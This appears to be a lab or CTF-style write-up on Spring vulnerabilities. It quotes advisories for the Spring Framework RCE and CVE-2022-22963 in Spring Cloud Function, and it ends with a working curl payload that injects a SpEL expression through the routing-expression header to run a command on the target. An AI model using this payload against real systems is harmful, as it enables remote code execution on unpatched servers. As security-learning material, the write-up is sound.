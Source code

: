 > 遠端主機上的 Spring Framework 程式庫版本為 5.2.20 之前的版本或 5.3.18 之前的 5.3.x。因此，該主機受到遠端程式碼執行弱點影響：
> 透過資料系結，JDK 9+ 上執行的 Spring MVC 或 Spring WebFlux 應用程式可能很容易受到遠端程式碼執行 (RCE) 弱點影響。特定的惡意利用需要應用程式在 Tomcat 上作為 WAR 部署執行。如果應用程式部署為 Spring Boot 可執行檔 jar (即預設值)，則不會受此弱點影響。不過，這個弱點更具普遍性，可能還有其他利用方式。

### Research for spring cloud function 3.2.2

- Find Remote code execution in Spring Cloud Function by malicious Spring Expression
- CVE Number: CVE-2022-22963
- Description: 

> Spring Cloud Function is a serverless framework for implementing business logic via functions.

> In Spring Cloud Function versions 3.1.6, 3.2.2 and older unsupported versions, when using routing functionality it is possible for a user to provide a specially crafted SpEL as a routing-expression that may result in remote code execution and access to local resources. Users of affected versions should upgrade to 3.1.7, 3.2.3. No other steps are necessary.

![](./IMG/12.png)

> 该漏洞是由RoutingFunction功能导致。在Spring Cloud Function中RoutingFunction类的apply方法将请求头中的“spring.cloud.function.routing-expression”参数作为Spel表达式进行处理，造成了Spel表达式注入漏洞。


## Exploit 

- According to above research, CVE-2022-22963 might be the critria point.
- Using this payload
```
curl -X POST  http://0.0.0.0:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("touch /tmp/pwned222")' --data-raw 'data' -v
```
